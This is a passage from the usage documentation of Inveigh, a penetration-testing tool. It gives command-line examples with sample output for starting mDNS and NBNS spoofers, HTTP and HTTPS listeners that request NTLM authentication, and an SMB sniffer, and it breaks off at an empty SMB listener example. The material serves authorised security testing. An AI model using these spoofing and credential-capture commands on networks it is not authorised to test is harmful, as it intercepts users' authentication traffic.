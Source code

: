 ### <a name="mDNS"></a>mDNS
Start mDNS spoofer and send unicast responses to QM requests.
```
.\Inveigh.exe -mdns y
...
[+] MDNS Listener [Questions QU:QM | Type A]
...
[+] [23:25:58] mDNS(QM)(A) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [response sent]
[+] [23:25:58] mDNS(QM)(A) request [test.local] from 10.10.2.201 [response sent]
[-] [23:25:58] mDNS(QM)(AAAA) request [test.local] from 10.10.2.201 [type ignored]
[-] [23:25:58] mDNS(QM)(AAAA) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [type ignored]
```
Start mDNS spoofer and send multicast responses to QM requests.
```
.\Inveigh.exe -mdns y -mdnsunicast n
...
[+] MDNS Listener [Questions QU:QM | Type A]
...
[+] [23:28:26] mDNS(QM)(A) request [test.local] from 10.10.2.201 [response sent]
[+] [23:28:26] mDNS(QM)(A) request [test.local] from fe80::bd92:a800:60d0:8deb%2 [response sent]
```
### <a name="NBNS"></a>NBNS
Start NBNS spoofer
```
.\Inveigh.exe -nbns y
...
[+] NBNS Listener [Types 00:20]
...
[+] [23:33:09] NBNS(00) request [TEST] from 10.10.2.201 [response sent]
```
### <a name="HTTP"></a>HTTP
Start HTTP listener on port 80 (enabled by default)
```
.\Inveigh.exe 
...
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
...
```
Start HTTP listeners on multiple ports
```
.\Inveigh.exe -httpports 80,8080
...
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Ports 80:8080]
...
```
### <a name="HTTPS"></a>HTTPS
Start HTTPS listener on port 443 with Inveigh's default cert
```
.\Inveigh.exe -https y
...
[+] HTTPS Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 443]
...
```
### <a name="SMB"></a>SMB
Start SMB packet sniffer (enabled by default)
```
.\Inveigh.exe
...
[+] SMB Packet Sniffer [Port 445]
...
```
Start SMB listener on port 445
```
```